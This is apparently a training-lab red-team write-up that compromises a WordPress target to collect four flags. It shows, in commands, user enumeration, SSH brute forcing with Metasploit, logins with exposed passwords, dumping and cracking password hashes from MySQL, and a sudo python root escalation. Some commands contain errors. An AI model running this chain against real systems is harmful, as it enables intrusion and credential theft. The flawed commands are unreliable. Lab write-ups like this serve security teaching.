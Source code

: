 ## Red Team: Summary of Operations

Table of Contents

* Exposed Services
* Critical Vulnerabilities
* Exploitation

Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -sV 192.168.1.110

This scan identifies the services below as potential points of entry:

![nmap](https://user-images.githubusercontent.com/92223941/167321518-58e91c5d-a017-4528-8e63-25930c171f48.PNG)

* Target 1
	- Port 22/TCP SSH
	- Port 80/TCP http
	- Port 111/TCP rpcblind
	- Port 139/TCP netbios -ssn
	- Port 445/TCP netbios -ssn

The following vulnerabilities were identified on each target:

* Target 1
	- Wordpress enumeration
	- Improper use of SSH
	- Weak user password
	- Misconfigure use of privilege escalation

Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

* Target 1
	- flag1.txt: b9bbcb33e11b80be759c4e844862482d
		- Exploit Used
			- Used wpscan to enumerate the user from the      wordpress website
			- wpscan –url http://192.168.1.110/wordpress -enumerate u
		
![flag1a](https://user-images.githubusercontent.com/92223941/167321576-2bd89b98-b0f5-4344-af0c-af68e24d44ae.PNG)
![flag1b](https://user-images.githubusercontent.com/92223941/167321593-fa2222a3-87f8-4664-9b9a-545625968773.PNG)


			- Used SSH scanner module on Metasploit to brute force login attempts with the username and Michael and wordlists from Kali
			- Msfconsole
			- Use auxiliary/scanner/ssh/ssh_login
			- options
			- set Rhosts 192.168.1.110, 
			- set PASS_File /usr/share/wordlists/rockyou.txt,
			- set USERNAME Michael
			- set VERBOSE true
			- run




			- I then login into Michael via SSH 
			- SSH michael@192.168.1.110 password: michael

			- I then went into the html directory and listed the directories in it
			- cd /var/www/html
			- ls

			- I then went into the service.html file and found flag1.
			- nano service.html
			-  ctrl+w “flag”

	- flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c
		- Exploit Used
			- I went back one directory and listed the files and found flag 2
			- cd ..
			- ls
			- cat flag2.txt

	- flag3.txt: afc01ab56b50591e7dccf93122770cd2
		- Exploit Used
			- I went back to the html directory and went into the wordpress directory and listed the directories
			- cd html
			- cd wordpress

			- I then went into the wp-config file and found the password for sql login
			- Nano wp-config.php


			- I logged in via sql
			- mysql -u root -P password: R@v3nSecurity

			- I then viewed the databases then viewed the tables
			- show databases;
			- show tables;


			- I then selected wp_posts and was able to find flag3
			- select * from wp_posts;


	- Flag4.txt: 715dea6c055b9fe3337544932f2941ce
		- Exploit Used
			- While still being logged in via sql I described the table wp_users
			- describe wp_users;

			- I then formatted the username and passwords being separated by a colon sign.
			- select concat_ws(‘:’, user_login, user_pass) from wp_users;

			- I then outputted the formatted table into text file in the www directory and then viewed the file under michael
			- select concat_ws(‘:’, user_login, user_pass) from wp_users into outfile ‘var/www/wp_hashes.txt’;
			- cat wp_hashes.txt

			- I copied wp_hashes.txt file and exited Michael’s computer and pasted the file on www directory on my pc
			- “copied username and passwords”
			- Exit
			- cd /var/www
			- ls
			- touch wp_hashes.txt
			- nano wps_hashes.txt
			- “pasted username and passwords”






			- I ran john the ripper to brute force the password with the usernames and found the password for steven
			- John wp_hashes.txt

			- I logged into Steven via ssh 
			- ssh steven password:pink84

			- I ran a python command to login via root
			- sudo python -c ‘import pty:pty.spawn(“/bin/bash”)’

			- I then went into the root directory I ran the list command and found flag 4 and then I viewed the flag
			- cd /root
			- ls
			- cat flag4.txt




